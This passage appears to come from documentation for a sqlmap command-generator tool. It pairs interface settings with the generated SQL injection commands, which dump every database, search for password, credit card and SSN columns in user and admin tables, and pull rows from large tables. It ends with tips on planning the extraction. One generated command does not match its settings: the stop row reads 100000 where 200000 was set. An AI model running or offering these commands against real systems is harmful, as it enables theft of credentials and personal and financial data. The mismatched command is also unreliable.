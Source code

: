 ### Complete Database Dump
```
Dump All Databases: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/db.php?id=1" --dump-all
```

### Sensitive Data Search
```
Search Columns: password,credit_card,ssn
Search Tables: users,admin,customers
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/search.php?q=test" --search -C password,credit_card,ssn --search -T users,admin,customers
```

### Large Table Handling
```
Database: logs
Table: access_logs
Dump Table: ✓ Enabled
Start from: 100000
Stop at: 200000
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/logs.php?id=1" -D logs -T access_logs --dump --start=100000 --stop=100000
```

## ⚠️ Important Considerations

### Database Selection Strategy
- **Start with system databases**: mysql, information_schema, master
- **Check application databases**: Look for app-specific databases
- **Consider permissions**: Some databases may not be accessible
- **Multi-tenant systems**: May have separate databases per tenant

### Table Discovery Approach
- **Use --tables first**: Get complete table list
- **Common table names**: users, admin, config, settings
- **Application-specific**: Look for tables matching app functionality
- **System tables**: Contain metadata and system information

### Data Extraction Planning
- **Start small**: Test with single table first
- **Use limits**: --start and --stop for large tables
- **Consider storage**: Dumps can be very large
- **Privacy concerns**: Handle sensitive data appropriately
